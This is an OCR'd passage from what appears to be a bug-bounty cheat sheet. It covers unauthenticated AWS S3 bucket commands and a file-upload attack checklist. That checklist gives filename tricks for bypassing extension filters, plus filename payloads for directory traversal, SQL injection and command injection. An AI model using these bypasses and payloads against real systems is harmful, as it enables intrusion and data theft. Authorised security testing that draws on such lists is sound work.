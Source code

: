     * [lazys3](https://github.com/nahamsec/lazys3)
    * [AWS Cli](https://aws.amazon.com/es/cli/)

    [http://bucket.s3.amazonaws.com](http://bucket.s3.amazonaws.com/) / [http://s3.amazonaws.com/bucket](http://s3.amazonaws.com/bucket) aws s3 cp test.txt s3://target --no-sign-request aws s3 ls s3://target --no-sign-request

    * [Metadata Cloud](https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b)
    * [How the AWS Access Key & Secret works](https://github.com/streaak/keyhacks#AWS-Access-Key-ID-and-Secret)\*\*\*\*

    ***

**File Upload:**

* Extensions Impact
  * `ASP`, `ASPX`, `PHP5`, `PHP`, `PHP3`: Webshell, RCE
  * `SVG`: Stored XSS, SSRF, XXE
  * `GIF`: Stored XSS, SSRF
  * `CSV`: CSV injection
  * `XML`: XXE
  * `AVI`: LFI, SSRF
  * `HTML`, `JS` : HTML injection, XSS, Open redirect
  * `PNG`, `JPEG`: Pixel flood attack (DoS)
  * `ZIP`: RCE via LFI, DoS
  * `PDF`, `PPTX`: SSRF, BLIND XXE
* Blacklisting Bypass
  * PHP → `.phtm`, `phtml`, `.phps`, `.pht`, `.php2`, `.php3`, `.php4`, `.php5`, `.shtml`, `.phar`, `.pgif`, `.inc`
  * ASP → `asp`, `.aspx`, `.cer`, `.asa`
  * Jsp → `.jsp`, `.jspx`, `.jsw`, `.jsv`, `.jspf`
  * Coldfusion → `.cfm`, `.cfml`, `.cfc`, `.dbm`
  * Using random capitalization → `.pHp`, `.pHP5`, `.PhAr`
* Whitelisting Bypass
  * `file.jpg.php`
  * `file.php.jpg`
  * `file.php.blah123jpg`
  * `file.php%00.jpg`
  * `file.php\x00.jpg` this can be done while uploading the file too, name it `file.phpD.jpg` and change the D (44) in hex to 00.
  * `file.php%00`
  * `file.php%20`
  * `file.php%0d%0a.jpg`
  * `file.php.....`
  * `file.php/`
  * `file.php.\`
  * `file.php#.png`
  * `file.`
  * `.html`
* Vulnerabilities
  * [ ] Directory Traversal
    * Set filename `../../etc/passwd/logo.png`
    * Set filename `../../../logo.png` as it might changed the website logo.
  * [ ] SQL Injection
    * Set filename `'sleep(10).jpg`.
    * Set filename `sleep(10)-- -.jpg`.
  * [ ] Command Injection
    * Set filename `; sleep 10;`
  *   [ ] SSRF
